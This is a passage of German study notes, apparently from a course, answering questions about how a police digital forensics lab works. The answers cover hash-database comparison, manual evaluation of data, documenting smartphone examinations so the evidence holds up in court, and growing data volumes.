* Es wird nicht nur auf Dateiendungen geachtet sondern auch auf Dateiinhaltet (ist exe wirklich exe oder ein JPG?)
* Die Auswertung von Hooligan-Laptops erfolgt nach dem gleichen Prinzip, wird aber mit einer anderen Hash-DB verglichen.


**11.0.5. Wie weit wird die Auswertung manuell und durch Software durchgeführt?**

* Aufbereitung => Software
* Auswertung => manuell

.. image:: img/rq-11.0.5.1.png


**11.0.6. Wie werden Smartphones ausgewertet, wenn kein direkter Zugriff auf die Daten über einen Rechner besteht? Wie wird dabei sichergestellt, das trotz der Veränderungen auf dem Gerät die Gerichtsverwertbarkeit nicht beeinträchtigt wird?**

* Screenshots + Verschickt.
* Foto von Screen + Auf PC abgeschrieben.
* Bei jedem Eingriff auf das Gerät werden alle Schritte zwingend Dokumentiert, um die Gerichtsverwertbarkeit sicherzustellen.


**11.0.7. Aus welchem Grund ist die Datenmenge, die das Labor auszuwerten hat seit 2007 stark angestiegen?**

* Die Geräte haben immer mehr Platz und es muss die ganze Festplatte/SD Card kopiert werden.


**11.0.8. Welchen Herausforderungen muss sich die digitale Forensik immer wieder stellen?**

* Neue Software / Apps / OS. 